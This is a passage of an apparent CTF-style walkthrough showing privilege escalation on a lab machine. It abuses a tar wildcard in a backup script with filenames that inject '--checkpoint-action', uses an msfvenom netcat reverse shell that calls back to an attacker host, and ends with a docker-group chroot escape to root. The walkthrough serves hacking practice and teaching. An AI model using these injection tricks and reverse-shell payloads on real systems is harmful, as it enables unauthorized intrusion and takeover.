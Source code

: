 ### Priv Esc to Michael

#### Tar wildcards Priv Esc exploitation \[\*]

`sudo -l` We can execute cmd as Michael.

<figure><img src=".gitbook/assets/image (231).png" alt=""><figcaption></figcaption></figure>

When we cat the contents of the backup.sh script we see that "tar" is also utilizing a "\*" \[wildcard] character. We can use this [**website** ](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/)which shows how to do privilege escalation base on tar wildcard!

First, we have to generate a NetCat reverse shell payload on our own machine.

`msfvenom -p cmd/unix/reverse_netcat lhost=AttackerIP lport=port R`

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*jfCKC7Ghb5v1HStZMdPTNA.png" alt="" height="65" width="700"><figcaption></figcaption></figure>

Now hop back onto Jake’s terminal as we have to inject the payload into a script for backup.tar to run.

`cd /opt/backups`\
`echo "MSFVENOM PAYLOAD" > shell.sh`\
`echo "" > "--checkpoint-action=exec=sh shell.sh"`\
`echo "" > --checkpoint=1`

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*fGibNrG-2JbgKakzIxGd0w.png" alt="" height="66" width="700"><figcaption></figcaption></figure>

Now open a NetCat listener on your machine with the port that you have specified on the payload. Once that is done, we need to change the permission of the files and run it!

`chmod 777 backup.tar shell.sh`\
`sudo -u michael /opt/backups/backup.sh`

<figure><img src="https://miro.medium.com/v2/resize:fit:439/1*mvURRH7gM81rbKZRplSwpA.png" alt="" height="95" width="639"><figcaption></figcaption></figure>

And you should get a shell on your listener!

<figure><img src="https://miro.medium.com/v2/resize:fit:346/1*1TdhxcYPa_u78hQvFNeRqg.png" alt="" height="122" width="503"><figcaption></figcaption></figure>

Michael is in the "docker" group, so check gtfobin for the payload.

```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

<figure><img src=".gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

